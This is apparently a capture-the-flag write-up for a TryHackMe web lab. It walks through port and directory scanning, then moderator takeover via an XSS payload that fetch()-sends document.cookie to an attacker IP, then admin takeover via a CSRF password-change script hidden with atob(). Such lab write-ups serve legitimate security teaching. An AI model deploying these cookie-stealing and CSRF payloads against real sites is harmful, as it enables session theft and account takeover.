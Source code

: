 
## nmap scan
![](Pasted%20image%2020250208160826.png)

- 22 - ssh open
- 80 - cookie secure flag not set

Let s see what is on port 8081 
	![](Pasted%20image%2020250208161928.png)
	![](Pasted%20image%2020250208161957.png)

```shell
(root㉿kali)-[~]
└─# dirbuster -u http://worldwap.thm:8081 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 

Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
File found: /index.php - 200
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=ltqln2ktcei1me78r6069f4ntl; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
Feb 08, 2025 2:17:59 PM org.apache.commons.httpclient.HttpMethodBase processCookieHeaders
WARNING: Cookie rejected: "$Version=0; PHPSESSID=rcs2an6hlmgm0ph5uim4lvlvt8; $Path=/; $Domain=.worldwap.thm". Illegal domain attribute ".worldwap.thm". Domain of origin: "worldwap.thm"
File found: /login.php - 200
Dir found: /icons/ - 403
File found: /profile.php - 302
File found: /clear.php - 200
Dir found: /assets/ - 200
File found: /chat.php - 302
Dir found: /icons/small/ - 403
File found: /db.php - 200
Dir found: /javascript/ - 403
File found: /logout.php - 302
File found: /setup.php - 200
File found: /block.php - 200
```

Nothing interesting found therefore we will get back at the main app hosted on port 80

## moderator account takeover
### **XSS (cookie steal)**
Let s try to create an account
	![](Pasted%20image%2020250208185950.png)
When we try to log in with the just created account we get the following message: ''user not verified" which means that our account was not validated by an authorithy(in our case an account moderator)
	![](Pasted%20image%2020250208190119.png)
We can try to register another account but this time to inject an XSS payload that will steal the moderator cookie once he will open our registration:

```javascript
<img src="nbyte" onerror="fetch('http://10.10.117.68:8000/?cookie='+document.cookie)">
```
OR
```javascript
<img src="nbyte2" onerror="fetch('http://10.10.117.68:8000/?secret='+encodeURIComponent(document.cookie))">
```

![](Pasted%20image%2020250208191234.png)

Now let s try to steal the moderator session using his cookies:
	![](Pasted%20image%2020250208191350.png)
		![](Pasted%20image%2020250208191459.png)

## administrator account takeover
### **CSRF (request of password change)**

We have noticed that change password functionality and it s endpoint (it is useful functionality for our CSRF payload)
	![](Pasted%20image%2020250208213857.png)
Parameter that we wanna change is new_password (this one will be injected in our req)
	![](Pasted%20image%2020250208220056.png)Also we have the chat option where we can get in touch with our actual victim(admin)
	![](Pasted%20image%2020250208214135.png)

Perfect scenario until now... let's build the payload script that will be sent over the chat. Here's an example of how an attacker can update a password  and send an asynchronous request to update email/password seamlessly.

```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://worldwap.thm:8081/change_password.php', true);
    xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
    xhr.onreadystatechange = function () {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            alert("Action executed!");
        }
    };
    
    xhr.send('action=execute&new_password=NBYTE');
</script>
```

However, it must be noticed that our payload is included now in a `<href` attribute (is converted in a direct link)
	![](Pasted%20image%2020250208220532.png)

To solve this problem we have to encode whole url and use javascript decoder built in function `atob`.
	![](Pasted%20image%2020250208220659.png)
```javascript
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST',atob( 'aHR0cDovL3dvcmxkd2FwLnRobTo4MDgxL2NoYW5nZV9wYXNzd29yZC5waHA='), true);
    xhr.setRequestHeader("X-Requested-With", "XMLHttpRequest");
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    
    xhr.onreadystatechange = function () {
        if (xhr.readyState === XMLHttpRequest.DONE && xhr.status === 200) {
            alert("Action executed!");
        }
    };
    
    xhr.send('action=execute&new_password=NBYTE');
</script>
```

![](Pasted%20image%2020250208220940.png)

Now we can log in into the admin page with the newly created password :)

